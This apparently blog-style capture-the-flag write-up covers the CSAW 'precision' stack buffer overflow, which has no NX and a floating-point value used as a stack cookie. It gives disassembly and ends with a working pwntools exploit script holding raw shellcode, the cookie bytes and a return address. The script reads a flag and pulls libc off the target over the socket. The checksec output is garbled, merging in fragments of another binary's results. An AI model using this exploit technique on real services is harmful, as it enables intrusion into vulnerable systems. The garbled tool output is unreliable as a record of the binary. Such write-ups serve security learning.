 
### TL; DR
* Overflow

Precision was the lowest point exploitation challenge because it was literally a buffer overflow :3

Let's start by getting an idea what is up with it:

{% highlight bash lineanchors %}
vagrant@precise64:~/csawctf$ file precision
prec: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf2c69f92c3f6d68319ee39c0926e84bccdeb0371, not stripped
{% endhighlight %}

Alright, and the security mitigations it has:

{% highlight bash lineanchors %}
vagrant@precise64:~/csawctf$ ~/Template/checksec.sh --file precision
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   precfound      NX enabled    No PIE          No RPATH   No RUNPATH   contacts
{% endhighlight %}

Oh boy! No NX! So we can put shellcode into our payload :3

{% highlight nasm lineanchors %}
804856f:       lea    eax,[esp+0x18]
8048573:       mov    DWORD PTR [esp+0x4],eax     ; Our input
8048577:       mov    DWORD PTR [esp],0x8048682   ; Scanf format string
804857e:       call   8048410 <__isoc99_scanf@plt>
{% endhighlight %}

Oh man, we have a `scanf` that prompts us for our input and stores it in a static buffer.

If we look at the function prologue, we get an idea how big this buffer is:

{% highlight nasm lineanchors %}
8048523:       sub    esp,0xa0 ; Our return address will be around 0xa0 bytes
{% endhighlight %}

The interesting part of this challenge comes from this part of `main`:

{% highlight nasm lineanchors %}
8048583:       fld    QWORD PTR [esp+0x98]
804858a:       fld    QWORD PTR ds:0x8048690
8048590:       fucomip st,st(1)
8048592:       fstp   st(0)
8048594:       jp     80485a9 <main+0x8c>
8048596:       fld    QWORD PTR [esp+0x98]
804859d:       fld    QWORD PTR ds:0x8048690
80485a3:       fucomip st,st(1)
80485a5:       fstp   st(0)
80485a7:       je     80485c1 <main+0xa4>
{% endhighlight %}

We see a lot of floating point operations and at the beginning of that code we see a floating point load from `0x8048690`. Looking at the beginning of this function we see the same address again:

{% highlight nasm lineanchors %}
8048529:       fld    QWORD PTR ds:0x8048690
804852f:       fstp   QWORD PTR [esp+0x98]
{% endhighlight %}

and it is storing the value in a stack based variable meaning it is most likely using this floating point value as a "stack cookie" more or less. So by simply getting the bytes of this floating point value and sticking them into our payload at the right offset as to align them with where the floating point value is located, we pass this check and get our exploit to land :3

Oh yeah, they also give us the address of our buffer in memory, so it is super easy peasy :3

### Note
This script also includes an example of how to exfiltrate a libc in case you need it for a higher point problem :3

{% highlight python lineanchors %}
from pwn import *

r = remote("54.173.98.115", 1259)


shellcode = "\xeb\x25\x5e\x31\xc9\xb1\x1e\x80\x3e\x07\x7c\x05\x80\x2e\x07\xeb\x11\x31\xdb\x31\xd2\xb3\x07\xb2\xff\x66\x42\x2a\x1e\x66\x29\xda\x88\x16\x46\xe2\xe2\xeb\x05\xe8\xd6\xff\xff\xff\x38\xc7\x57\x6f\x69\x68\x7a\x6f\x6f\x69\x70\x75\x36\x6f\x36\x36\x36\x36\x90\xea\x57\x90\xe9\x5a\x90\xe8\xb7\x12\xd4\x87"

buf = int(r.recvline().strip()[-8:], 16)

r.sendline("A"*(0x80 - len(shellcode)) + shellcode + "\xA5\x31\x5A\x47\x55\x15\x50\x40EEEECCCCDDDD" + p32(buf+8))
r.recv()

r.sendline("cat flag.txt")
print r.recv()

r.sendline("cat /lib32/libc.so.6")

x = ""
while r.can_recv(5):
    x += r.recv()

with open("libc", "wb") as f:
    f.write(x)
{% endhighlight %}
